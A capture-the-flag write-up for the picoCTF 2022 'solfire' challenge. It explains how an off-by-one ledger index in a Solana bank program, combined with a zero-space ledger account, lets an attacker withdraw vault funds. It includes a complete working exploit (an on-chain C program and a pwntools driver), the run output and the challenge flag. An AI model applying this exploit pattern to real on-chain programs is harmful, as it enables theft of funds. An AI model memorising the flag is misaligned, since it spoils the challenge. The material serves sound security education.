

<h1 align="center">🔥 solfire</h1>
<p align="center">
  <b>picoCTF 2022 Binary Exploitation Write-Up</b>
</p>
<p align="center">
  
  
  
  
</p>
<p align="center">
  A Blockchain Bank, an Off-by-One Ledger Index, and a Zero-Space Account That Leaks the Vault
</p>

---

# 📋 Environment

| Item       | Value                                                               |
| ---------- | ------------------------------------------------------------------- |
| Event      | picoCTF 2022 (run on CyLab Security Academy)                        |
| Category   | Binary Exploitation (Solana on-chain program)                      |
| Difficulty | Hard                                                               |
| Author     | notdeghost                                                          |
| Handout    | `solfire.so` (eBPF on-chain program), `src/main.rs` (the launcher), `Dockerfile` |
| Task       | Turn a starting balance of 10 into more than 50,000 lamports in one transaction |
| Tools Used | `pwntools`, the Solana v1.10.8 BPF toolchain                        |

---

# 🗺️ Overview

> solfire is a small bank that lives on a private Solana blockchain. The bank controls a vault holding 1,000,000 units of currency (lamports), we are given an account with 10, and we win if our account ends a single transaction with more than 50,000. The bank keeps a ledger that records, per slot, how much has been deposited and how much withdrawn, and it only lets us withdraw up to what that slot says was deposited. The flaw is an off-by-one: the ledger buffer holds exactly 640 slots, but the bounds check allows slot index 640, which is one slot past the end. On its own that reads zeros and blocks the withdrawal. The trick is that we are allowed to create the ledger account ourselves with zero allocated space. Solana then pads the account with a fixed 10,240-byte zero region, and slot 640 lands exactly past that padding, onto the next account's bookkeeping bytes, which read back as a very large "deposited" value. The bank now believes slot 640 is funded, and lets us withdraw roughly 60,000 lamports from the vault into our account with nothing actually deposited. All of this is driven by a tiny on-chain program we write and upload, which creates the zero-space ledger and then calls the bank's withdraw function at the out-of-bounds slot.

Steps:
* Understand the launcher: upload our own program, it runs once signed by our user account, we win if user ends above 50,000
* Read solfire: it checks a fake "C1ock" account, then routes to create, deposit, or withdraw
* Find the off-by-one: the ledger holds 640 slots but index 640 is accepted (one past the end)
* Create the ledger with zero space so slot 640 reads a large value from the padding boundary
* Call withdraw at slot 640 to move about 60,000 lamports from the vault to our user account

---

# 📑 Table of Contents

1. [A 90-Second Solana Primer](#a-90-second-solana-primer)
2. [The Service and the Goal](#the-service-and-the-goal)
3. [Inside the Bank: Create, Deposit, Withdraw](#inside-the-bank-create-deposit-withdraw)
4. [The Off-by-One in the Ledger Index](#the-off-by-one-in-the-ledger-index)
5. [Why a Zero-Space Account Is the Key](#why-a-zero-space-account-is-the-key)
6. [The Accounts We Need](#the-accounts-we-need)
7. [Our On-Chain Solve Program](#our-on-chain-solve-program)
8. [The Driver](#the-driver)
9. [Flag](#-flag)
10. [Solution Summary](#solution-summary)
11. [Lessons and Takeaways](#lessons-and-takeaways)

---

# A 90-Second Solana Primer

A few plain definitions make the rest of this readable even if you have never touched a blockchain.

* **Account.** A labeled container. Every account has an address (think of it as the account number), a balance in **lamports** (the unit of currency), an **owner** (the only program allowed to change that account's contents), and an optional block of **data**.
* **Program.** A smart contract: code that lives on the chain and moves money or edits data in accounts when you call it. solfire is a program. We also upload a program of our own.
* **Instruction and transaction.** An instruction is one call to a program, naming the program, the list of accounts it may touch, and a small blob of input data. A transaction bundles instructions and is all-or-nothing: if any part fails, the whole thing is undone and no balances change.
* **The conservation rule.** The runtime checks that money is neither created nor destroyed. You can only move lamports out of an account if its owner authorizes it, and the totals have to balance at the end.
* **Program Derived Address (PDA).** A special account address that a program is allowed to control and "sign" for, even though no human holds a private key for it. This is how a program can own an account and approve actions on its behalf.

> **In plain terms:** picture a bank with numbered lockboxes (accounts) that hold cash (lamports). Only the lockbox's owner can take cash out. Programs are the bank's automated tellers. A PDA is a lockbox the teller itself controls and can open on its own authority.

---

# The Service and the Goal

When we connect, a launcher runs the show. It asks for the length of a program, then the program itself, and deploys two things: the fixed `solfire.so` bank, and the program we just uploaded (our "solve" program). It creates a fresh **user** account for us, funds it with 10 lamports, and funds the bank's **vault** with 1,000,000. It prints three addresses we will need:

```
program pubkey: <solfire>
solve pubkey:   <our program>
user pubkey:    <our account>
```

It then lets us build exactly one instruction: we supply a list of accounts and a blob of data, it calls our solve program once, signed by the user account, and afterwards it checks the result:

```rust
const TARGET_AMT: u64 = 50_000;
let user_bal = env.get_account(user.pubkey()).unwrap().lamports;
if user_bal > TARGET_AMT {
    writeln!(socket, "congrats!")?;
    writeln!(socket, "flag: {:?}", env::var("FLAG")?)?;
}
```

So the entire challenge reduces to one sentence: get the user account above 50,000 lamports in a single transaction. The only pool of money large enough is the vault, and the only thing that can touch the vault is the bank.

> **In plain terms:** we are handed 10 dollars and told the flag is ours if we walk out with more than 50,000. The only vault with that much is the bank's, so we have to make the bank pay us.

---

# Inside the Bank: Create, Deposit, Withdraw

solfire is compiled to eBPF (the instruction set Solana programs run in), so we read it as a compiled program rather than source. Every call first validates a "clock" account: it takes the first account, encodes its address to text, and requires the text to contain the string `C1ock`, then reads a timestamp from that account and requires it to be before the start of the event. A non-existent account works perfectly here, because the runtime presents a missing account as all zeros, the timestamp reads as 0, and 0 is safely in the past. We just supply an address whose text contains `C1ock` and is not the real system clock, such as `C1ock11111111111111111111111111111111111111`.

After that check, the first four bytes of our data select an operation: 0 creates a ledger account, 1 deposits, 2 withdraws. The bank keeps its books in a **ledger account** that it owns. The ledger is an array of fixed 16-byte slots:

```
slot = { uint64 withdraws;   // total taken out of this slot
         uint64 deposits; }  // total put into this slot
```

Deposit adds to `deposits[index]`. Withdraw moves lamports from the vault to a recipient, adds to `withdraws[index]`, and then enforces the one rule that keeps the bank honest:

```c
if (deposits[index] < withdraws[index])
    panic();   // you cannot withdraw more than was deposited
```

> **In plain terms:** the bank tracks, slot by slot, how much you put in and how much you took out, and refuses to let you take out more than you put in. To steal from it we need a slot that claims a big deposit we never actually made.

---

# The Off-by-One in the Ledger Index

The ledger buffer is `0x2800` bytes, which is 10,240 bytes. Each slot is 16 bytes, so the buffer holds exactly `10240 / 16 = 640` slots, numbered 0 through 639. The bounds check on the slot index, however, is written as:

```c
if (index > 0x280)        // 0x280 == 640
    panic();
```

It rejects anything above 640 but **allows 640 itself**. Slot 640 is the 641st slot, one past the last valid slot. Reading it reads 16 bytes starting at offset `640 * 16 = 0x2800`, which is the first byte *after* the buffer. This is a classic off-by-one: counting from zero, the last valid index is 639, not 640.

On an ordinary ledger that memory just past the buffer is zeros, so slot 640 reads `deposits = 0`, and any withdrawal is blocked. We need to control what sits immediately after the ledger.

> **In plain terms:** the bank has 640 numbered pigeonholes but accepts a request for pigeonhole number 640, which does not exist. It reads whatever happens to be lying on the shelf just past the last real pigeonhole. If we can arrange for a big number to be sitting there, the bank will treat it as a real deposit.

---

# Why a Zero-Space Account Is the Key

Here is the insight that turns the off-by-one into a theft. When Solana hands an account's data to a program, it lays the account out in memory like this: the account's own data, then a fixed `0x2800`-byte scratch region (padding the runtime always adds), then the account's bookkeeping, and then the *next* account's bookkeeping bytes.

The bank expects the ledger to be a normal account with `0x2800` bytes of real data, so slot 640 would land inside that fixed scratch region, which is zeros. But we are allowed to create the ledger account ourselves, and we create it with **zero** bytes of data. Now the layout shifts: with no real data, the `0x2800` scratch region starts at the very beginning, and slot 640 at offset `0x2800` lands exactly past the scratch region, onto the serialized bookkeeping of the next account in the list.

Those bytes are not zero. They encode small administrative fields of the following account (flags such as "is this account a signer" and "is it writable", plus a record marker). Read as a 64-bit number, they come out large, on the order of tens of thousands and above. That number lands exactly where the bank reads `deposits[640]`. The bank now believes slot 640 was funded with a large deposit, so a withdrawal of around 60,000 lamports passes the `deposits >= withdraws` check.

> **In plain terms:** by asking the bank to open a brand-new, empty ledger with no shelf space at all, we line up pigeonhole 640 directly on top of the bank's own internal paperwork for the next lockbox. That paperwork, read as a dollar figure, looks like a huge deposit, so the bank happily pays out.

---

# The Accounts We Need

Two addresses are **Program Derived Addresses**, computed deterministically from a program's address plus a short seed. They are not random: anyone can recompute them, and the owning program can sign for them.

* **Vault:** derived from the bank's address with the seed `"vault"`. The bank signs for it, which is how it is allowed to move the vault's money.
* **Ledger:** we derive it from *our* solve program's address with the seed `"A"`, so our solve program can create it and sign on its behalf.

Deriving a PDA also yields a one-byte **bump** value, which the program must present when it signs. We compute both PDAs and both bumps off-chain and pass the two bump bytes to our solve program as its input data.

The instruction we submit therefore lists six accounts, in the order our solve program expects: the fake clock, the system program (Solana's built-in account creator and money mover), the ledger, the user, the vault, and the bank.

> **In plain terms:** the vault and the ledger are lockboxes with no human key, each controlled by a program. We work out their exact addresses in advance using public math, hand our program the two short "control codes" (bumps) it needs to open them, and give it the full list of lockboxes it is allowed to touch.

---

# Our On-Chain Solve Program

Solana only lets a program create a program-owned account and call another program, so the attack has to run on-chain. Our solve program does exactly two things: it creates the zero-space ledger owned by the bank, then calls the bank's withdraw at slot 640. It is compiled with the Solana BPF toolchain into the same kind of `.so` the bank is.

```c
#include <solana_sdk.h>

/* Account order we require (set by our driver):
 *   0 clock    (read)   - any address whose text contains "C1ock"
 *   1 system   (read)   - 11111111111111111111111111111111
 *   2 ledger   (write)  - PDA of THIS program (seed "A"), created with 0 data, owned by solfire
 *   3 user     (write,sign) - funds the ledger, and receives the stolen lamports
 *   4 vault    (write)  - the bank's PDA (seed "vault"), the source of funds
 *   5 solfire  (read)   - the bank program we call
 * instruction data: [ ledger_bump, vault_bump ]
 */
enum { CLOCK = 0, SYSTEM = 1, LEDGER = 2, USER = 3, VAULT = 4, SOLFIRE = 5 };

typedef struct __attribute__((packed)) {
    uint32_t tag;        /* 0 = SystemProgram::CreateAccount */
    uint64_t lamports;
    uint64_t space;
    uint8_t  owner[32];
} CreateAccountData;

typedef struct __attribute__((packed)) {
    uint32_t opcode;        /* 2 = withdraw */
    uint32_t balance_index; /* 640: one slot past the end of the ledger */
    uint32_t lamports;
    uint8_t  vault_bump;    /* offset 12 */
    uint8_t  _pad[3];       /* the bank requires at least 16 bytes of data */
} WithdrawData;

/* Step 1: create the ledger as a zero-space account owned by the bank. */
static void make_ledger(SolParameters *params, uint8_t ledger_bump) {
    uint8_t seed_data[] = { 'A', ledger_bump };          /* seed "A" + bump */
    SolSignerSeed seed = { seed_data, SOL_ARRAY_SIZE(seed_data) };
    const SolSignerSeeds signers[] = { { &seed, 1 } };

    CreateAccountData ix = { .tag = 0, .lamports = 1, .space = 0 };
    sol_memcpy(ix.owner, params->ka[SOLFIRE].key, 32);   /* owner = the bank */

    SolAccountMeta meta[] = {
        { params->ka[USER].key,   true, true },          /* who pays */
        { params->ka[LEDGER].key, true, true },          /* the new account (our PDA) */
    };
    SolInstruction instr = {
        params->ka[SYSTEM].key, meta, SOL_ARRAY_SIZE(meta),
        (uint8_t *)&ix, sizeof(ix),
    };
    sol_invoke_signed(&instr, params->ka, params->ka_num, signers, 1);
}

/* Step 2: withdraw from the out-of-bounds slot 640. */
static void do_withdraw(SolParameters *params, uint8_t vault_bump) {
    WithdrawData ix = {
        .opcode = 2, .balance_index = 640, .lamports = 60000, .vault_bump = vault_bump,
    };
    SolAccountMeta meta[] = {
        { params->ka[CLOCK].key,  false, false },
        { params->ka[SYSTEM].key, false, false },
        { params->ka[LEDGER].key, true,  false },
        { params->ka[USER].key,   true,  true  },        /* recipient, must sign */
        { params->ka[VAULT].key,  true,  false },        /* source; the bank signs for it */
    };
    SolInstruction instr = {
        params->ka[SOLFIRE].key, meta, SOL_ARRAY_SIZE(meta),
        (uint8_t *)&ix, sizeof(ix),
    };
    sol_invoke(&instr, params->ka, params->ka_num);
}

extern uint64_t entrypoint(const uint8_t *input) {
    SolAccountInfo ka[6];
    SolParameters params = { .ka = ka };
    if (!sol_deserialize(input, &params, SOL_ARRAY_SIZE(ka)))
        return ERROR_INVALID_ARGUMENT;
    if (params.data_len < 2)
        return ERROR_INVALID_ARGUMENT;

    make_ledger(&params, params.data[0]);
    do_withdraw(&params, params.data[1]);
    return SUCCESS;
}
```

Two details matter and are easy to miss. First, the ledger is created with `space = 0`; that zero is the whole attack, because it is what slides slot 640 onto the next account's bytes. Second, the bank requires the withdraw request to carry at least 16 bytes of data, so the request packs its four fields (operation, slot, amount, vault bump) and pads out to 16 bytes; the field positions stay fixed, with the vault bump at offset 12.

> **In plain terms:** our little program asks the bank to open an empty ledger in the bank's name, then asks the bank to pay out from the phantom slot. The bank, following its own rules, does both.

---

# The Driver

The script on our side speaks the launcher's simple line protocol: it sends the length and then the bytes of our compiled solve program, reads back the three addresses, computes the vault and ledger PDAs (and their bumps) with ordinary public-key math, then sends the six accounts and the two bump bytes. The compiled solve program is embedded directly in the script so there is nothing else to carry. Only `pwntools` is required.

```python
#!/usr/bin/env python3
from pwn import *
import sys, re, base64, hashlib

context.log_level = 'info'
HOST = sys.argv[1] if len(sys.argv) > 1 else 'xebec.cylabacademy.net'
PORT = int(sys.argv[2]) if len(sys.argv) > 2 else 11554

SOLVE_SO = base64.b64decode("<compiled solve program, base64>")

CLOCK  = "C1ock11111111111111111111111111111111111111"   # text contains "C1ock"; not the real clock
SYSTEM = "11111111111111111111111111111111"               # Solana's built-in system program

# ---- base58 and Program-Derived-Address math (no external libraries) ----
_B58 = "123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz"
def b58encode(b):
    n = int.from_bytes(b, 'big'); s = ""
    while n > 0:
        n, r = divmod(n, 58); s = _B58[r] + s
    return "1" * (len(b) - len(b.lstrip(b'\x00'))) + s
def b58decode(s):
    n = 0
    for c in s: n = n * 58 + _B58.index(c)
    body = n.to_bytes((n.bit_length() + 7) // 8, 'big')
    return b"\x00" * (len(s) - len(s.lstrip('1'))) + body

_P = 2**255 - 19
_D = (-121665 * pow(121666, _P - 2, _P)) % _P
def _on_curve(b):
    y = int.from_bytes(b, 'little') & ((1 << 255) - 1)
    if y >= _P: return False
    y2 = y * y % _P
    xx = (y2 - 1) * pow(_D * y2 + 1, _P - 2, _P) % _P
    if xx == 0: return True
    return pow(xx, (_P - 1) // 2, _P) == 1
def find_program_address(seeds, program):
    for bump in range(255, -1, -1):
        h = hashlib.sha256(b"".join(seeds) + bytes([bump]) + program + b"ProgramDerivedAddress").digest()
        if not _on_curve(h):
            return h, bump
    raise Exception("no PDA bump found")

def main():
    io = remote(HOST, PORT)
    io.recvuntil(b'len:')
    io.sendline(str(len(SOLVE_SO)).encode())
    io.send(SOLVE_SO)                                      # upload our program

    io.recvuntil(b'program pubkey: '); program = io.recvline().strip().decode()
    io.recvuntil(b'solve pubkey: ');   solve   = io.recvline().strip().decode()
    io.recvuntil(b'user pubkey: ');    user    = io.recvline().strip().decode()

    ledger_key, ledger_bump = find_program_address([b"A"],     b58decode(solve))
    vault_key,  vault_bump  = find_program_address([b"vault"], b58decode(program))
    ledger = b58encode(ledger_key)
    vault  = b58encode(vault_key)

    # order must match the solve program: clock, system, ledger, user, vault, solfire
    accounts = [('r', CLOCK), ('r', SYSTEM), ('w', ledger),
                ('ws', user), ('w', vault), ('r', program)]
    io.sendline(str(len(accounts)).encode())
    for meta, key in accounts:
        io.sendline(('%s %s' % (meta, key)).encode())

    ix_data = bytes([ledger_bump, vault_bump])
    io.sendline(str(len(ix_data)).encode())
    io.send(ix_data)

    text = io.recvall(timeout=30).decode('latin-1', 'replace')
    for ln in ('user bal', 'vault bal', 'congrats'):
        m = re.search(ln + r'.*', text)
        if m: log.info(m.group(0))
    m = re.search(r'(?:picoCTF|academy)\{[^}]*\}', text)
    if m: log.success('FLAG: ' + m.group(0))

if __name__ == '__main__':
    main()
```

Run it against the service:

```text
$ python3 solfire_pwn.py
[*] program FfokbmLpU4Wcp5PMf4aJnATSruVKruf9PxJhtRaMLkRv
[*] solve   B22AZ2sZoWzC7zyQGv5JhyXkHA8SU48WL8YaodAEb9qo
[*] user    FuVR8o1cCUVHskjjfuAXPD4at7z8e7FqmWqg8Jv36Nd6
[*] user bal: 60009
[*] vault bal: 940001
[+] congrats!
[+] FLAG: academy{5c5b2c51}
```

The user account, which began with 10 lamports, ends with roughly 60,000, comfortably above the 50,000 threshold, and the vault is lighter by the same amount.

> **In plain terms:** our script uploads the little program, works out the two lockbox addresses, tells the bank which lockboxes to use, and presses go. We walk out with about 60,000 and the flag.

---

# 🚩 Flag

```text
academy{5c5b2c51}
```

---

# Solution Summary



---

# Lessons and Takeaways

* **Off-by-one is still the quiet killer, even on a blockchain.** A buffer of 640 slots with a check that allows index 640 reads one slot past the end. Counting from zero, the last valid index is 639. That single wrong comparison is the entire vulnerability.
* **Attacker-controlled allocation changes the memory picture.** The bug only becomes exploitable because we are allowed to create the ledger account ourselves with zero data. That choice slides the out-of-bounds slot onto meaningful bytes instead of harmless zeros, which is the difference between a crash and a theft.
* **Validate the thing itself, not a label on it.** The bank gates on an account whose name merely contains `C1ock`, and accepts a non-existent account whose data reads as zeros. A name check is not an identity check, and missing data should not be treated as trusted data.
* **Enforce ownership of records, not just balances.** The ledger tracks deposits with no link between a slot and who funded it, and the slot index is fully attacker-chosen. Any accounting that stores "how much is owed" must bind each entry to its rightful owner.
* **On-chain money movement needs end-to-end invariants.** The bank's one honest rule, withdraw no more than deposited, was sound in isolation but useless once an attacker could forge the deposited figure. Security properties have to hold across the whole system, including the memory layout the program never meant to expose.

---

Written by **TheDingo8MyBaby**
picoCTF 2022 • solfire • flag: academy{5c5b2c51}
